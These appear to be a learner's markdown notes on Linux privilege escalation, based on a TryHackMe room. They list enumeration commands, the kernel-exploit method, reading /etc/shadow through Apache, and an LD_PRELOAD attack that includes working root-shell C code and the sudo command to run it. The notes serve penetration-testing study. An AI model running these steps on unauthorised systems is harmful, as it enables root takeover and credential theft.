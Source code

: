 # Privelege Escalation Notes

[Reference](https://tryhackme.com/room/linprivesc)

Enumeration is the first step you have to take once you gain access to any system. Penetration testing engagements, unlike CTF machines, don't end once you gain access to a specific system or user privilege level. As you will see, enumeration is as important during the post-compromise phase as it is before.

Enumeration checks (atleast):

    - hostname
    - uname -a
    - /proc/version
    - /etc/issue
    - ps [-A][axjf][aux]
    - env
    - sudo -l
    - ls
    - id
    - /etc/passwd
    - history
    - ifconfig
    - netstat [-a][-t][-u][-l][-s][-p][-i][-ano]
    - find [-name][-type][-perm][-user][-size][-time] :Find tools -> find / -name perl*|| find / -name python*|| find / -name gcc*
    - locate
    - grep

## Automated enumeration tools

These tools should only be used to save time knowing they may miss some privilege escalation vectors. Below is a list of popular Linux enumeration tools with links to their respective Github repositories.
These tools should only be used to save time knowing they may miss some privilege escalation vectors. Below is a list of popular Linux enumeration tools with links to their respective Github repositories.

    - [LinPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
    - [LinEnum](https://github.com/rebootuser/LinEnum)
    - [LES (Linux Exploit Suggester)](https://github.com/mzet-/linux-exploit-suggester)
    - [Linux Smart Enumeration](https://github.com/diego-treitos/linux-smart-enumeration)
    - [Linux Priv Checker](https://github.com/linted/linuxprivchecker)

## Kernel Exploit

[Reference: Linux Privilege Escalation - Kernel Exploits](https://steflan-security.com/linux-privilege-escalation-kernel-exploits/)

The following command can be used to manually enumerate kernel info:

    uname -a ; lsb_release -a; cat /proc/version /etc/issue /etc/*-release; hostnamectl | grep Kernel

The Kernel exploit methodology is simple:

    1. Identify the kernel version
    2. Search and find an exploit code for the kernel version of the target system
    3. Run the exploit

Although it looks simple, please remember that a failed kernel exploit can lead to a system crash. Make sure this potential outcome is acceptable within the scope of your penetration testing engagement before attempting a kernel exploit.

Search for the exploit can be done using Google for an existing exploit code, a [CVE database](https://www.linuxkernelcves.com/cves), exploit-db, searchsploit. Note: be extremely specific of the kernel version. Read the comments of the code carefully, some exploits might need further interaction. You can transfer the exploit code from your machine to the target system using the SimpleHTTPServer Python module and wget respectively.

Another alternative would be to use a script like LES (Linux Exploit Suggester) but remember that these tools can generate false positives (report a kernel vulnerability that does not affect the target system) or false negatives (not report any kernel vulnerabilities although the kernel is vulnerable).

## Sudo

The sudo command, by default, allows you to run a program with root privileges.
Any user can check its current situation related to root privileges using the "sudo -l" command. [GTFObins](https://gtfobins.github.io/) is a valuable source that provides information on how any program, on which you may have sudo rights, can be used.

### Leverage application functions

    Some applications will not have a known exploit within this context.
    Example, for apache2 server, we can use a "hack" to leak information leveraging a function of the application. As you can see below, Apache2 has an option that supports loading alternative configuration files (-f : specify an alternate ServerConfigFile).
    Loading the /etc/shadow file using this option will result in an error message that includes the first line of the /etc/shadow file.

### Leverage LD_PRELOAD

On some systems, you may see the LD_PRELOAD environment option.
LD_PRELOAD is a function that allows any program to use shared libraries. This [blog post](https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld_preload-to-cheat-inject-features-and-investigate-programs/) will give you an idea about the capabilities of LD_PRELOAD. If the "env_keep" option is enabled we can generate a shared library which will be loaded and executed before the program is run. Please note the LD_PRELOAD option will be ignored if the real user ID is different from the effective user ID.

The steps of this privilege escalation vector can be summarized as follows;

    Check for LD_PRELOAD (with the env_keep option)
    Write a simple C code compiled as a share object (.so extension) file
    Run the program with sudo rights and the LD_PRELOAD option pointing to our .so file

The C code will simply spawn a root shell and can be written as follows;

    #include <stdio.h>
    #include <sys/types.h>
    #include <stdlib.h>

    void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
    }

The code can be saved & compiled using gcc into a shared object file using the following parameters(shell.c is the file name of the above .c file):

    gcc -fPIC -shared -o shell.so shell.c -nostartfiles

We can now use this shared object file when launching any program our user can run with sudo. In the example case, Apache2, find, or almost any of the programs we can run with sudo can be used. (i.e. found via the sudo -l command)

We need to run the program by specifying the LD_PRELOAD option, as follows;

    sudo LD_PRELOAD=/home/user/ldpreload/shell.so find

## SUID
